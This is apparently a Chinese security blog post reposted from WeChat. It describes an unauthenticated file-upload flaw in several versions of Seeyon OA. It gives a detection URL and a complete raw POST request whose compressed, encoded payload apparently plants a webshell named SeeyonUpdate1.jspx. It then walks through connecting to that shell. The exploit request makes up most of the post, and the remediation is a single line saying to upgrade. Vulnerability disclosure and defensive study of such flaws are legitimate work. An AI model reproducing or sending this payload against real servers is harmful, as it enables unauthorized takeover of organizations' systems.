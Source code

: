 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/nagE6htEWNMNAvPBVGTJxQ)

**上方蓝色字体关注我们，一起学安全！**

**作者：零度安全攻防实验室 - 砥砺前行**

**阅读时长：3～6min  
**

**声明：请勿用作违法用途，否则后果自负**

### **一、漏洞介绍**

         致远 OA 旧版本中某些接口存在未授权访问，以及部分函数过滤不足，攻击者通过构造恶意请求，可在无需登录的情况下上传恶意脚本，从而控制服务器。

### **二、影响版本**

   致远 OA V8.0  
   致远 OA V7.1、V7.1SP1  
   致远 OA V7.0、V7.0SP1、V7.0SP2、V7.0SP3  
   致远 OA V6.0、V6.1SP1、V6.1SP2  
   致远 OA V5.x  
   致远 OA G6

### **三、漏洞复现**

#### 1. 判断是否存在漏洞

https://xxx.xxx.xxx.xxx/seeyon/thirdpartyController.do.css/..;/ajax.do

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MbwAJPmZZKyFswA6siaVynTDb4H3eceEKSjHVxtJIg509vUgAlBzia0FRR17nJE77hHp16lgpO4g1bw/640?wx_fmt=png)

#### 2. 漏洞 poc

```
POST/seeyon/autoinstall.do.css/..;/ajax.do?method=ajaxAction&managerName=formulaManager&requestCompress=gzipHTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Opera/9.80 (Macintosh; Intel Mac OS X10.6.8; U; fr) Presto/2.9.168 Version/11.52
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=7B6D8C106BD599DB0EF2F2E3B794A4FA;loginPageURL=; login_locale=zh_CN;
Content-Type: application/x-www-form-urlencoded
Content-Length: 8819

managerMethod=validate&arguments=%1F%C2%8B%08%00%00%00%00%00%00%00uTK%C2%93%C2%A2H%10%3E%C3%AF%C3%BE%0A%C3%82%C2%8Bv%C3%B4%C2%8C%C2%8D+c%C2%BB%13%7Bh_%C2%88%28*%28%C2%AF%C2%8D%3D%40%15Ba%15%C2%B0%C3%B2%10%C3%AC%C2%98%C3%BF%C2%BE%05%C3%98%C3%93%3D%C2%B1%C2%BDu%C2%A9%C3%8C%C2%AC%C3%8C%C2%AF%C3%B2%C3%BD%C3%97k%C3%B7%14_H%C2%8E%C2%9DC%C2%95x%C3%9D%3F%C2%98%C3%81%17%C3%A6M%C2%A28%C2%A4%C2%96t3%2F%C3%8D%C2%BA%C3%AF%C3%A2y%C2%99%5C%C2%BC4EqT%3Fj%C3%99%05E%3E%C2%938Y%C3%80%C3%BC%C3%89t%C3%BA%C3%BD%C2%A7%C2%AB%C3%A7%3AI%C2%92%3E%C2%A5%C2%9EW%C3%85%C3%91S%C3%A7%C3%BB%C3%AFL%7B%7E%0B%C2%9D%C3%82%C3%A9%C2%A3%C2%B8%C2%BF%C2%A3%26%C2%99qA%C2%99wa%C2%92w%C2%9A%C2%A3%00%C2%91we%3EQ%C3%AB%C3%95%C3%B8%C2%8F%1D%C2%AD%C2%81%3C%26%C3%90%C3%89%C2%BCA%3FL%C2%93%C2%B2%C3%B3%C3%B0%13%C2%9E%C2%B9%C2%BB%C2%92%06%1E%C3%86%C2%B5%2F%3B1%C2%B9%C2%81YR%C2%B9%C3%9C%C2%98%C2%95%C2%96A%C3%A6%C2%8A%C3%82mKj%19%C2%8B%C2%9C%C2%A5%C3%8A%C2%82Y%5C%C2%AC%C2%B9%24%C2%80d%C2%9E%03%5E%C3%8F%C3%97D%29%5Cm%2C%1F%07%2F%C3%85Q%5CD%C2%B6%26%C3%B9%C2%90%C3%A8%15%C3%A0p%C3%A1%C2%86%2C%C3%9Ah%C3%83J%0A%C2%87%C3%8FN%C2%A4%5C%C2%B7DM%00%C3%91C%28b%C3%8E%C3%96%C2%84%C2%ABe%40%2C%C2%898%03%C3%A2%C2%B8%C2%825%3EYp%C2%96%26%0C%C3%A8%7B%C2%BAFq%C3%9A%C3%B0%C2%A6%C2%9F%5B%C3%BCJ%00K%C2%B5%C3%B8TFqmc%C2%93%C3%8BH*va%C3%B9%0F%C3%A0_%C2%BE%C3%99%C2%A2%1E%C2%BA%C3%A2%C2%A2%C2%B2L5q%C2%B9%C3%A1%C2%A3%24*%C2%A9e*7iq%C3%B4m3%60mC8%C2%83j2%C2%A3%3A7%C3%80%C2%96%C2%85e%C2%A8%18D%C2%99.%C3%8F%5B%C2%BD%C2%838%0E%28F%25%C2%89%C2%9B%C3%84%C3%A3%C2%95%01%C2%A0%C2%B4L%C3%A9-%3F%C2%B8Bc%C2%95%3A%C3%86%C3%86%C3%9Fse%00%C3%B8%C2%8DoW%01%C3%B2L%15K%C2%8B%0CZ%08%C2%8Fh%7C%2C4W%C2%B9%C2%B4l%C3%AD%C3%96D%C3%856%C3%81%C2%B9%7Dl%C2%B1eQJ7%C3%93%12%C2%ADI%C2%89%5D%02Ygz%1E%C2%9DL%C3%B6%C2%99%C3%A6%C2%B4%C3%8E%C3%BB%C3%996j%C2%BDU%40s%40%C3%B3w%C3%8F%5B%C2%A4%C2%84%C2%80%C3%A0%2B%14K%0Cg%C3%82%01.W%C2%89K%C2%80%C3%AF%C3%9CXd%1F%C3%B6%03%C3%BB%C2%B0%C2%A9%C2%B6%C2%86%C2%8D%C2%ADP%3Fo%0F%C3%92%C3%80B%C3%92%08p%C3%BA%C2%AD%C2%A9%01%12%C2%AE%C3%90T%0D%C3%8B%28%07%C2%B6%C3%A6%23%C2%A8I%C2%A9S%C2%9DG%7B%0E_%C2%9D6%C3%86%C3%B1%1B%C2%BD%26%10%C3%839%C2%A6uU%03%C2%97%28X%C2%9E%C2%AE%26%C2%AA%C2%BEA%C3%B2%21%0B%C3%974%06%C3%87%C3%9C%C3%87%1BT%C3%A6%C2%B6%09%C3%BC%23%C2%A7%C2%87u%C2%AC%1A%C2%A7%0BG%7E%C2%82%C2%AD%C3%8A%C2%8F%3F%C3%BC%19%C3%99%C2%BF%C3%BE%C2%99%C3%88%C2%95%C2%84d%C2%AD%C2%91O%C3%AB%7C%C2%81%C3%8AO%C3%96o%C3%B8%C3%9Ay%C3%A4%12%C2%9D%C2%A7%C3%B5%C2%89%C2%A1%18%24%C2%A0j%C3%B4%C3%9A%C3%BA%C3%94z%C2%8D_%C2%BF%C3%96F%C2%9E%C2%9E%C2%A9%1C%C3%84V%25%C2%9C%5D%C3%96%C2%A6%C3%B9X%C2%A4%C2%B2%28%60XMn%C3%90%18%C3%A6%C2%AE%C2%81o%C3%B4m%C2%BA%C3%97%C2%95%C2%85%12%C2%AAs%C2%9A%C3%97%C3%A2n%C2%977%C3%BD%C3%81%C2%A9x%1F%C3%A9%C3%84%C2%A6%C2%BD*%2FW%18%C2%98%3A%06%C3%BC%3E%C2%B79%C2%9D%3D%12%C3%BD%C3%AD%C2%8F%1C%C3%944%C2%9D%5E%C2%97%1Cc%C3%AAgBc%C2%A0%C3%B1%C3%83%C2%95%1B%29%C2%ACe%08%21%C2%8D%C2%8F%C3%BA%C2%A1%C2%97%C3%90X%C2%A4%C2%A0%0A%C2%9A%C2%9E%C3%9Es%C3%A3%1C%C2%8A%C3%BA%10%C3%92%C3%9A%C3%AE%C2%A6%C3%A3%C2%A6%27%01%C2%A7T%C2%8E9a%5DQgw%C3%A1%C2%B5h%C3%AB%C2%BA*%5C%7E%C3%BF%C3%B8%3E%C3%ADL%C2%9AG%7D%C2%82R%C3%90%C2%9F%C2%BCh%C3%B3o%C3%83%C2%99%07bH%07%1E%C3%9E%C3%AFv%C3%96%3FW%C3%AA%C3%BDw%C2%AA%5B%C2%B3%3B%C3%93%C3%9A%C2%B6L%C3%AF%0E%C3%98o%C3%AFI%7E%3AQ%C2%80f%09%3C%7C%C3%A9%1C%0F%C2%8B%C2%AF%C3%8F%1F%C2%97%C3%84%C3%87%7D%C3%93o%18%1C%C3%B5%3E%C2%82%C3%BF%C2%9F.%C3%80q%C3%AAQ%C3%87%7E%7C%C2%AF%C3%B7%21%25%C2%A0wb%C3%92%C3%8C%C3%89%10%60%C3%8A%C2%B2%C3%AC%3D%C2%BCv%7F%C3%90%25I%17%C3%A5k%7Dg%C2%97%C3%9C%C3%AB%C3%BE%C3%BD%2FheA%C3%A4_%05%00%00
```

#### 3. 漏洞利用

(1): 执行 POC

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MbwAJPmZZKyFswA6siaVynTDGM8nyPbrldON9p5fFyw5A4Zuxv6yy6lJ74In7gfqStsS6FX0MbSwVg/640?wx_fmt=png)

(2): 访问 webshell 页面

https://xxx.xxx.xxx.xxx/seeyon/SeeyonUpdate1.jspx

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MbwAJPmZZKyFswA6siaVynTDq7TzAGx4ZLYJmicJl1Mia4nHePx0Osic0jUaPHXibmndCg9UoF96kfp52A/640?wx_fmt=png)

(3): 成功连接 webshell

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MbwAJPmZZKyFswA6siaVynTD6PdKLN4QevYLEEchZkBx6tfF66Wm3NU18gUwoP9SRwr2jQBYusZoBQ/640?wx_fmt=png)

#### 4. 漏洞利用失败

如果显示如下格式，则表示漏洞利用失败。

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MbwAJPmZZKyFswA6siaVynTDIJsBkurF99jgNYmzJia7RL5DDCdic86sNHciaQfTal63RtVzg0Mn5Q8tg/640?wx_fmt=png)

### 四、漏洞修复

#### 1. 升级到安全版本

-END-

![](https://mmbiz.qpic.cn/mmbiz_gif/eqGGHicCG3MYLsiafhuCAGuOSuIhKap61miagSh8mlA1Yb2riaSibiaTE9wF0zoZfPOTIgSMKrvTjM6lSBWwSiaGx584g/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_jpg/eqGGHicCG3MYLsiafhuCAGuOSuIhKap61mrMsqiaz5Is1EjiayDv4AFiaFibBAdZjwTuhlVF0NaOM1A9DXx0qy48se8Q/640?wx_fmt=jpeg)

微信号：Zero-safety

- 扫码关注我们 -

带你领略不一样的世界

![](https://mmbiz.qpic.cn/mmbiz_gif/eqGGHicCG3MYLsiafhuCAGuOSuIhKap61mOnuN32N92RN4WvG94sL3diaBGSaFNMh2ZQXtibB0SiaLtyCuk6e6EKYoQ/640?wx_fmt=gif)